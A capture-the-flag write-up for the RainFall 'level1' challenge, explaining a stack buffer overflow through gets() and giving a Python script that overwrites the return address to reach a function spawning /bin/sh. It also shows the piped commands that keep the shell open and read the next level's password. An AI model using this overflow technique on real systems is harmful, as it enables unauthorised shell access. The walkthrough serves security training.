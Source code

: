# Level1

In this level we have a binary `level1`. When we execute it, it wait for an input, then when we provide it, it print nothing 
```bash
level1@RainFall:~$ ./level1 
ssdf
level1@RainFall:~$ 
```

## Analysis

this is the main of the binary
```c
void main(void)

{
  char local_50 [76];
  
  gets(local_50);
  return;
}
```

As we can see theire is a variable `local_50`, and the function `gets()` is call with the variable `local_50` as input (without verification).

So i look for an other functions use by this binary and i see a function named `run`
```c
void run(void)

{
  fwrite("Good... Wait what?\n",1,0x13,stdout);
  system("/bin/sh");
  return;
}
```
as we can see this function give us the access to a terminal

## Exploitation

Here we can exploat this weakness by overflow the the variable `local_50` then forced to run the `run` function.


To overflow the variable `local_50` we know that it wait for a string less than 76 charactor and make him call the `run` function.
thank to ghidra i know that the address of `run` is `08048444`

So i made a python script to overflow the `local_50`:
```python
import struct

my_var = b"A" * 76
my_var += struct.pack("<I", 0x08048444)
print(my_var)
```
then i use the print of script as input for my binary
```bash
level1@RainFall:~$ python /tmp/my_exploat.py | ./level1 
Good... Wait what?
Segmentation fault (core dumped)
level1@RainFall:~$ 
```
As we can see our `run` is successfuly executed, but the `/bin/sh`
is immaedialtly shotdown after the end of the execution.
That mean we have to find a way to keep it open even after the execution.

That why i save the print of this script in a file
```bash
python /tmp/my_exploat.py > /tmp/my_exploat
```
Then i execute my binary with my file as input and the big point it that i use `cat -` to keep it open.
```bash
level1@RainFall:~$ cat /tmp/my_exploat - | ./level1 
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```


## Conclusion
So this level have a buffer overflow weakness because it don't check the size of `local_50` before to use it in `gets()`.

